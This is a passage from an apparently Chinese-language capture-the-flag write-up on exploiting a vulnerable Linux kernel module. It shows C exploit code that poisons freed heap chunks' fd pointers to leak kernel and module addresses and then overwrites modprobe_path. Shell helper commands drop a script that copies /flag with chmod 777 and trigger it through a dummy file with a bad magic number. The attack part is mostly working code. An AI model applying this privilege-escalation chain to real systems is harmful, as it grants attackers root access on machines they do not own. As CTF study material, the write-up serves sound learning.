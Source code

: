 在 kernel 中，只要能改動 chunk fd，就能拿到任意位置，並且不會有 size header 的限制，因此再次利用 chunk 4 去更改 chunk 3 的 fd 為 `0xffffffff81811010 + 0x30`，+ 0x30 的原因為很明顯在 `0xffffffff81811010` 會有類似 data struct 的資料，而 + 0x30 的位置看起來是 memory map (`main_arena` 的感覺)，對於 memory map entry 的 fd 與 bk 都是指向自己，並且看起來沒用到，因此分配這塊 memory chunk 時不會影響到 kernel 的運作，只要再透過 `read_data()` 即可拿到 -0x30 offset 的 module base。

```c
    unsigned long table_ptr = kernel - 0x38ad0;
    memset(buf, 0, 0x200); // clear buffer
    *ptr = table_ptr + 0x30;

    write_data(4, (char *)buf, 0x100, -0x100);
    create_entry(5, zeros, 0x100);
    create_entry(6, zeros, 0x100);
    read_data(6, (char *)buf, 0x30, -0x30);
    unsigned long module = *(ptr+1);
	unsigned long modprobe_path = kernel - 0xa180;
```

有 kernel, heap, module，下一步要想辦法改寫 pool，使得我們可以多次寫入，寫 `modprobe_path`，而方式還是透過改寫 fd 拿到任意 chunk:

```c
    // remove all entry except 0, 6
    remove_entry(2);
    remove_entry(4);
    remove_entry(5);

    create_entry(1, zeros, 0x100); // 0x700
    create_entry(2, zeros, 0x100); // 0x800
    create_entry(3, zeros, 0x100); // 0x600

    remove_entry(3); // 0x600
    remove_entry(2); // 0x800
    // 0x800 has a fd point to 0x600
    // 0x600 fd point --> 0xffffffff81811040
    
    memset(buf, 0, 0x200); // clear buffer
    *ptr = modprobe_path;
    write_data(1, (char *)buf, 0x100, -0x100);

    create_entry(2, zeros, 0x100);
    create_entry(3, zeros, 0x100);

    memset(buf, 0, 0x200); // clear buffer
    create_entry(4, "/home/pwn/copy.sh\x00", 0x100);
    system("/home/pwn/dummy");
    system("cat /home/pwn/flag");

    close(dev_fd);
```

並在 `main()` 一開始先建立 modprobe path 所需要的檔案:

```c
    puts("[*] create modprobe path file");
    system("echo -ne '#!/bin/sh\ncp /flag /home/pwn/flag\n/bin/chmod 777 /home/pwn/flag' > /home/pwn/copy.sh");
    system("chmod 777 /home/pwn/copy.sh");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /home/pwn/dummy");
    system("chmod 777 /home/pwn/dummy");
```
